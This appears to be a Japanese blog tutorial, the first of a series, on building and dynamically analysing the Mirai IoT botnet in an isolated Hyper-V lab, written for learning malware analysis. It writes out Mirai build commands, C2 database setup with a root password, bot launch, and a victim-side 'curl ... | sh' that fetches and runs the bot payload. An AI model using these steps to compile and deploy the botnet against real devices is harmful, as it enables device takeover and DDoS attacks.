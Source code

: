 ![](https://storage.googleapis.com/zenn-user-upload/68173bbca667-20231009.png)
# 目次

1. [はじめに](#はじめに)
2. [Miraiって？](#Miraiって？)
4. [環境構築](#環境構築)
5. [動的解析](#動的解析)
6. [まとめ](#まとめ)
7. [参考文献](#参考文献)
8. [第二回へつづく](#第二回へつづく)

# はじめに
この記事は3部構成で、これは第一回の記事です。
第一回→動的解析
第二回→ソースコードの解析
第三回→Ghidraによる静的解析

今回は、MiraiというIoT機器を標的に攻撃を行うマルウェアを解析した結果を記しました。第一回の本記事では、Miraiを自身の解析環境に構築して動的解析を行うまでを範囲としています。

※本投稿は悪意のある行為を助長するためのものではなく、あくまでマルウェアの挙動を学習したい方やマルウェア解析者を対象としたものです。また、本投稿は特定の誰かの行動を支持したり批判したりすることは一切なく、常に中立の第三者としての発言に基づいています。

# Miraiって？
-出荷時のデフォルトパスワードとユーザ名を使っているホームルータや防犯カメラのようなIoTデバイスに感染し、ボットネットの一部にする。
-2016年にKrebs On SecurityというウェブサイトをDDおS攻撃する等して流行。
-2016年にAnna-senpaiと名乗る人物がフォーラムにソースコードをリークしており、現在でも調べるとGitHub等でソースコードの閲覧が可能。
-ソースコードが公開されていることもあり、現在でもPastやOMGのような、Miraiの亜種が多く出回っている
-IoTデバイスの脆弱なデフォルトのパスワードとユーザ名を変更することが対策になる。
***
マルウェアのソースコードがリークされることはたまにあるみたいですが、Miraiは有名なマルウェアなので参考にできる情報も多くソースコードの開設もされているので、初心者が解析の練習するにはちょうど良い検体かなと思って選定しました。
ソースコードがどんな経緯でリークしたかは不明ですが、Anna-senpaiと名乗る人物がフォーラムでリークしたそうです。
マルウェアの教科書にも書いてありましたが、Contiというランサムグループがあり、そのグループのランサムのソースコードは金銭のいざこざで揉めてソースコードが流出したそうです。

## Miraiは初心者解析者におすすめ
Miraiの解析は、マルウェアの解析を始めたばかりの人や、これから始める人におすすめです。
なぜならソースコードがリークしているため、自身の解析の答え合わせができるためです。
私自身jrの身ですが、解析を初めてまず困るのは、「自分の解析結果が合っているかわからない」ことです。
アセンブリやデコンパイル結果を今後読めるようになっていくには、ソースコードのどの部分が、GhidraやIDAでどのように見えるかの経験値をためていく必要があると考えています。
Miraiはマルウェアとしての知名度や影響度が大きいので解析できた際のやりがいも大きく、ソースコードと静的解析の照らし合わせができるのでおすすめの検体と言えます。

## 参考にしたサイト
-https://atmarkit.itmedia.co.jp/ait/articles/1611/08/news028.html
-https://github.com/jgamblin/Mirai-Source-Code
-https://qiita.com/ueyasu/items/7eb4640d494576664109
-https://github.com/Glowman554/mirai
-https://en.wikipedia.org/wiki/Mirai_(malware)#:~:text=The%20Mirai%20botnet%20was%20first%20found%20in%20August,host%20OVH%2C%20and%20the%20October%202016%20Dyn%20cyberattack
-マルウェアの教科書

# 環境構築
**動的解析**とはその名の通り、検体を実際に動かしてその挙動を観察することです。
安全に検体を動かせるよう、今回はHyper-V上に解析環境を構築します。

解析環境の構築方法については手順を割愛しますが、構成は以下の通りです。

- REMnux (C2サーバ)
- CentOS (内部ルーター)
- Ubuntu (Victim)

1.
必要なツールのインストール
```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```

2.
./mirai/debugフォルダー内にenc.cがある。これをコンパイルしてtable.cに入れる必要がある。
mirai/ディレクトリで以下を実行してコンパイルする
クロスコンパイル関連のエラー出ても無視してOK
実行すると、mirai/debugフォルダーにencというコンパイル済みのバイナリが表示される
```
./build.sh debug telnet
```

3.


## Miraiの方
まずクロスコンパイラを設定する
```
sudo bash ./tools/compilers.sh
```

debugフォルダとreleaseフォルダを作成する
```
sudo bash ./setup.sh
```

これを実行すると、./mirai/deubgにencという名前の実行ファイルが作られる。
```
sudo bash ./build.sh debug telnet
```

botが接続するドメイン名の難読化などに使う
例えば、

```
./debug/enc string example.com
```
![Alt text](image.png)


### C2の設定
mysql-serverを設定する
```
cat ./tools/db.sql | dsudo mysql
sudo systemctl restart mysql
```

以下でmysql-serverにログインする
```
mysql -u root -p
```

USEステートメントでデータベースを選択する
今回はmiraiというデータベースを操作
```
USE database_name;
```

以下を実行してmysqlのrootユーザーのパスワードを設定
```
INSERT INTO users VALUES (NULL, 'root', 'Nodaysoff！', 0, 0, 0, 0, -1, 1, 30, '');
```

./mirai/cnc/main.goを書き換える
```go

```
![Alt text](image-2.png)

## botとC2のビルド
コンパイルする

```
bash ./build.sh debug telnet
bash ./build.sh release telnet
```


## 実行
c2を実行してmysqlの画面を開いて状態をリアルタイムで確認する
```
cd debug
screen -S mirai-cnc sudo ./cnc
```

botを実行
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```

telnetでローカルホストにつなぎ、先ほどmysqlのrootアカウントに設定したパスワードを入力してC2のbotnetにログインする
```
tlenet localhost
```
![Alt text](image-3.png)
![Alt text](image-4.png)


?で攻撃のタイプを確認できる
![Alt text](image-5.png)


バイナリをapache2にインストールする
```
cd release
sudo bash ../apache2.sh
```
上記によって、/var/www/html/binsにbot配布用のバイナリがつくられる

![Alt text](image-6.png)

Victim上で、curl http://<your apache2 ip>/bins/bins.sh |shして、バイナリをダウンロードおよび実行する

![Alt text](image-7.png)

dvrHelperがLinuxの実行ファイルであるELFであり、これは複数のバイナリを


## Cloud ServiceのSandboxで検体を実行してみる
VTでは引っかからないものの、MetaDefenderというやつでしっかりマルウェア判定くらってる。挙動監視みたいなことしてるのかな。
![Alt text](image-8.png)

検体がLinux向けなのでNoribenもx32dbgも使えず。Cuckooは構築面倒くさくてやめた。
elfファイルとかIoTデバイスを狙ったマルウェア向けのサンドボックスではLISAというやつが良さそう。
https://excel.fit.vutbr.cz/submissions/2019/058/58.pdf




